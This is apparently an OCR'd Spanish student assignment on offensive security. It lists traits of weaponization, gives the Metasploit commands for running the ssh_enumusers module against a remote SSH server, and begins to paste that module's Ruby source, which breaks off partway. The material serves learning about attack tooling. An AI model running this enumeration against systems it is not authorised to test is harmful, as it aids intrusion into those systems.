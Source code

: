 **Algunas características de la weaponization incluyen:**

1. Automatizar y optimizar una técnica de explotación para hacerla más eficiente y efectiva.
2. Integrar múltiples herramientas y técnicas en un solo paquete o script para ampliar las capacidades del ataque.
3. Diseñar payloads maliciosos que puedan evadir detección por antivirus y sistemas de seguridad.
4. Desarrollar técnicas de ofuscación y evasión para ocultar el código malicioso.
5. Personalizar y adaptarlas a diferentes entornos y objetivos específicos.

El servicio ssh como enumerar usuarios a través del servicio SSH en un objetivo específico:

*El módulo ssh_enumusers en Metasploit:*

```
use auxiliary/scanner/ssh/ssh_enumusers
```

*Esto carga el módulo que se utiliza para enumerar usuarios configurados en el servicio SSH de un sistema remoto.*

```
set RHOSTS [IP_ADDRESS]
```

*Establece la dirección IP del objetivo*

```
set USER_FILE [ruta_al_diccionario_de_usuarios]
```

*Define la ruta al diccionario de usuarios*

```
run
```

*Ejecuta el módulo*

## **7.	¿En qué lenguaje de programación está hecho?**

El script está escrito en Ruby, que es el lenguaje utilizado para la mayoría de los módulos de Metasploit.

## **8.	En su blog, copie y pegue el código de dicho script y proporcione una explicación breve sobre su funcionamiento.**

**Script utilizado en la enumeración de usuarios SSH (auxiliary/scanner/ssh/ssh_enumusers).**

```
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Auxiliary
include Msf::Exploit::Remote::SSH
include Msf::Auxiliary::Scanner
include Msf::Auxiliary::Report

def initialize(info = {})
    super(
    update_info(
        info,
        'Name' => 'SSH Username Enumeration',
        'Description' => %q{
        This module uses a malformed packet or timing attack to enumerate users on
        an OpenSSH server.

        The default action sends a malformed (corrupted) SSH_MSG_USERAUTH_REQUEST
```
